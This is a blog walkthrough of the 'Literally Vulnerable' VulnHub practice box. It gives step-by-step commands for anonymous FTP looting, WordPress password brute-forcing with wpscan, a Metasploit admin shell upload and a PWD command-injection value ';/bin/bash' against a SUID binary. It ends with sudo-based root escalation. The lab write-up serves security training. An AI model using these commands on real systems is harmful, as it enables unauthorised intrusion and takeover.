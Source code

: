```yaml
---
layout: post
title: " Literally Vulnerable - Vulnhub"
date: 2020-08-02
excerpt: "Walkthrough for Literally Vulnerable on Vulnhub"
tags: [website enumeration, anonymous ftp, privilege escalation, VulnHub]
comments: false
---
```


Literally Vulnerable is an easy to medium difficulty OSCP style box from [VulnHub](https://www.vulnhub.com). Below are the steps taken to compromise this box.

First, I enumerated open ports with **threader3000**.

![Literally Vulnerable threader3000](/assets/img/LiterallyVulnerable1.png)

Next, I ran **nmap -A -p 21,22,80,65535 [machine ip]** to enumerate the ports to find out more details about what services were running on them.

![Literally Vulnerable nmap](/assets/img/LiterallyVulnerable2.png)

It appears that there is an FTP server available with anonymous access, 2 HTTP servers on ports 80 and 65535, and SSH open. Let's take a look at the FTP server first. Let's run **ftp [machine ip]** and enter in the username of **anonymous** when prompted. Once connected, run **ls** and you will see a file called **backupPasswords**. Let's run **get backupPasswords** to save this file to our attacker pc.

![Literally Vulnerable ftp](/assets/img/LiterallyVulnerable3.png)

Let's terminate the ftp connection and run **cat backupPasswords** to see what is in the file.

![Literally Vulnerable backupPasswords](/assets/img/LiterallyVulnerable4.png)

It appears that this contains a list of passwords for something. Let's take a look at the website on port 80 to start with.

![Literally Vulnerable website port 80](/assets/img/LiterallyVulnerable5.png)

It appears that this is a WordPress site, but it didn't load properly. Looking at the links, it is looking for a website named **literally.vulnerable**. Let's run **echo "[machine ip] literally.vulnerable" >> /etc/hosts**.

![Literally Vulnerable update /etc/hosts](/assets/img/LiterallyVulnerable6.png)

Let's reload the website and see if it loads properly.

![Literally Vulnerable Wordpress site fixed](/assets/img/LiterallyVulnerable7.png)

This looks much better. I went to the Wordpress login link at the bottom of the page and tried using the username of **doe** on the login page, but it appeared that user didn't exist. I then tried with admin and used all the passwords in the **backupPassword** file, but none of them worked. I next took a look at the website on port 65535.

![Literally Vulnerable port 65535 website](/assets/img/LiterallyVulnerable8.png)

This appears to be a default configuration of Apache2. Let's run **gobuster dir -u http://literally.vulnerable:65535/ -w /usr/share/wordlists/dirb/big.txt -x .php,.txt -t 50**. It appears that there is a directory called **/phpcms**. Let's take a look at it.

![Literally Vulnerable gobuster port 65535](/assets/img/LiterallyVulnerable9.png)

It appears that this site has a password protected post by a user named **notadmin**. 

![Literally Vulnerable Wordpress](/assets/img/LiterallyVulnerable10.png)

I scrolled down and went to the login page. We know one of the user login names is **notadmin** based on who is posting. Let's see what we can find with **wpscan** for this site. Let's run **wpscan --url http://literally.vulnerable:65535/phpcms/ --enumerate**. This ends up returning 2 users, **maybeadmin** and **notadmin**.

![Literally Vulnerable wpscan 65535](/assets/img/LiterallyVulnerable11.png)

Let's try to crack one of these users with the passwords list we obtained earlier with **wpscan --url http://literally.vulnerable:65535/phpcms/ --usernames maybeadmin, notadmin --passwords backupPasswords**. After a few moments, we will crack the password for maybeadmin

![Literally Vulnerable maybeadmin password](/assets/img/LiterallyVulnerable12.png)

Let's navigate to **http://literally.vulnerable:65535/phpcms/wp-login.php** and attempt to login with the username **maybeadmin** and the password you just uncovered for this user.

![Literally Vulnerable WordPress dashboard](/assets/img/LiterallyVulnerable13.png)

Success! Let's see what information we can uncover. Let's take a look at the secure post we didn't have access to at the beginning. Click on **Posts** on the left hand menu and then you should be able to click on **Secure Post**

![Literally Vulnerable Secure Post](/assets/img/LiterallyVulnerable14.png)

This provides you with the credentials for **notadmin**. 

![Literally Vulnerable notadmin](/assets/img/LiterallyVulnerable15.png)

Let's login with this user's credentials, as we are not able to edit themes or add in/modify plugins as maybeadmin.

![Literally Vulnerable notadmin login](/assets/img/LiterallyVulnerable16.png)

Awesome **notadmin** is the admin to this WordPress site. Let's click on **Appearance** followed by **Theme Editor** so we can modify a PHP page with a reverse shell.

![Literally Vulnerable theme editor](/assets/img/LiterallyVulnerable17.png)

Next, on the right hand side, click on **404 Template** so we can paste in the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to modify the IP address and port to match what you want to use on your attacker PC. Once finished, click on **Update File**.

![Literally Vulnerable PHP reverse shell](/assets/img/LiterallyVulnerable18.png)

Unfortunately, this results in an error message and we aren't able to save the changes to the PHP file. 

![Literally Vulnerable update failed](/assets/img/LiterallyVulnerable19.png)

Let's see if there's a MetaSploit module we can use instead. Let's launch metasploit with **msfconsole** and then run **search wp_admin**

![Literally Vulnerable msfconsole](/assets/img/LiterallyVulnerable20.png)

Let's attempt this exploit with **use exploit/unix/webapp/wp_admin_shell_upload ** and then run **show options**

![Literally Vulnerable msfconsole2](/assets/img/LiterallyVulnerable21.png)

Let's use **set PASSWORD [password from wpscan], set USERNAME notadmin, set TARGETURI /phpcms/, set RHOSTS [machine ip], set RPORT 65535** and run **show options** again to confirm all the options are set.

![Literally Vulnerable msfconsole3](/assets/img/LiterallyVulnerable22.png)

once enterd, type in **exploit** and press enter to start the exploit. You will soon get a meterpreter connection. Let's run **shell** to get to a shell and run **whoami** to see who we are logged in as.

![Literally Vulnerable meterpreter shell](/assets/img/LiterallyVulnerable23.png)

Let's see if we can upgrade our shell. After some trial and error it appears that python3 is installed, and we can get a shell with **python3 -c 'import pty; pty.spawn("/bin/sh")'**. Next, I navigated to the user home directory with **cd /home** and ran **ls** to see what was present there. It appears there are two users, **doe** and **john**. Let's go to doe's home directory with **cd doe**. The first flag is here, but we aren't able to read it. There's also a noteFromAdmin and an executable named **itseasy** that is a SUID that runs as the user **john**.

![Literally Vulnerable doe home folder](/assets/img/LiterallyVulnerable24.png)

Let's run the program with **./itseasy**. It appears to print the user's home directory, which is typically stored in the **$PWD** environmental variable. 

![Literally Vulnerable itseasy](/assets/img/LiterallyVulnerable25.png)

Let's modify the PWD variable to run bash instead with **export PWD=';/bin/bash'**. This will change this variable to execute a bash shell. Let's run **./itseasy**. You should now have a shell as john.

![Literally Vulnerable john shell](/assets/img/LiterallyVulnerable27.png)

Let's navigate to john's home directory with **cd /home/john** and run **ls -al** to see what's there. The user.txt file is present here, which can be viewed with **cat user.txt**.

![Literally Vulnerable user.txt](/assets/img/LiterallyVulnerable28.png)

At this point, I wanted to see if I could find any files that john owned throughout the victim machine, so I ran **find / -group john 2>/dev/null** which will eliminate any error messages and return only the files john has access to.

![Literally Vulnerable john owned files](/assets/img/LiterallyVulnerable29.png)

One stood out, **/home/john/.local/share/tmpFiles/myPassword**. Let's run **cat /home/john/.local/share/tmpFiles/myPassword**. This provides you with a note stating that john's password is encoded in base64. 

![Literally Vulnerable myPassword](/assets/img/LiterallyVulnerable30.png)

Let's run **echo "[base64 encoded password]"\|base64 -d**. This should provide you with john's credentials:

![](/assets/img/LiterallyVulnerable31.png)

Let's open a new terminal window on our attacker pc and run **ssh john@[machine.ip]** and enter the password that was just decoded.

![Literally Vulnerable SSH](/assets/img/LiterallyVulnerable32.png)

Let's run **sudo -l** and we see that john can run **/var/www/html/test.html** as root

![Literally Vulnerable sudo -l](/assets/img/LiterallyVulnerable33.png)

Let's navigate to that folder with **cd /var/www/html** and run **touch test.html**. Unfortunately, we are not able to create this file here with john.

![Literally Vulnerable Permission denied](/assets/img/LiterallyVulnerable34.png)

However, this is under a folder that www-data has access to. Let's go back to the other terminal window and type **exit** to leave the shell as john and go back to the **www-data** user.

![Literally Vulnerable www-data](/assets/img/LiterallyVulnerable35.png)

Let's run **touch /var/www/html/test.html** and see what happens

![Literally Vulnerable touch test.html](/assets/img/LiterallyVulnerable36.png)

Success! Let's run **echo "/bin/bash" >> /var/www/html/test.html** and **chmod +x /var/www/html/test.html**

![Literally Vulnerable update test.html](/assets/img/LiterallyVulnerable37.png)

This will allow it to run a bash shell as root since it is now executable. Next, go back to your SSH session as john and run **sudo ./test.html**. You should now have a root shell!

![Literally Vulnerable root shell](/assets/img/LiterallyVulnerable38.png)

Now, we can run **cd /root** followed by **ls** and **cat root.txt** to get the root flag. We can also run **cat /home/doe/local.txt** to get the local.txt flag from earlier.

![Literally Vulnerable root.txt local.txt](/assets/img/LiterallyVulnerable39.png)
